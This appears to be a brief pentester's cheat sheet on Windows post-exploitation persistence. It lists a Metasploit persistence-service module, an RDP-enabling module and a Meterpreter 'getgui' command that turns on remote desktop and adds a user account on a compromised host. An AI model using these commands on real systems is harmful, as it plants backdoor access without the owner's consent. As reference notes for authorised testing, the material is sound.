 # Services

## Meterpreter

Module|Addtl.|
|--- |--- |
|exploit/windows/local/persistence_service||

# RDP

## Meterpreter

```post/windows/manage/enable_rdp```


``` run getgui -e -u $username -p $password ```
